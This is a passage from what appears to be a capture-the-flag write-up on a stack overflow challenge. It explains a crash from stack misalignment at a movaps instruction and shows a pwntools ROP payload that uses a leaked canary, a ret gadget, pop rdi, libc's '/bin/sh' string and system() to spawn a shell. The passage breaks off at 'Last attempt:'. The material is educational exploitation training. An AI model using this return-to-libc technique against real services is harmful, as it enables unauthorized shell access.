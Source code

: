 ![](./flag2-3.png)

SEGSEVG again.  Does `movaps XMMWORD PTR [rsp+0x50], xmm0` look familiar?

Stack misalignment.

If you still do not understand why, read this again: [https://blog.binpang.me/2019/07/12/stack-alignment/](https://blog.binpang.me/2019/07/12/stack-alignment/)

The fix is easy, just ROP a `ret` first, then the rest of the payload.  This trick could not be used with `win` above because we did not know the entire base process address.

Use `p.pid` in the right pane to find the PID and attach in the left pane.

As before `c` to continue, and `p.sendline()`, now the payload:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi + 1)
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])
```

This payload will just return, then `pop rdi; ret`.

> `procbase + pop_rdi + 1` is just the `ret` part of the gadget, we could have also used `procbase + rop.find_gadget(['ret'])[0]`, but since we already know our gadget ends in `ret` we can just used that too.

With `rdi` pointing to the string `/bin/sh` that last part of the payload just calls `system`.  Last attempt:
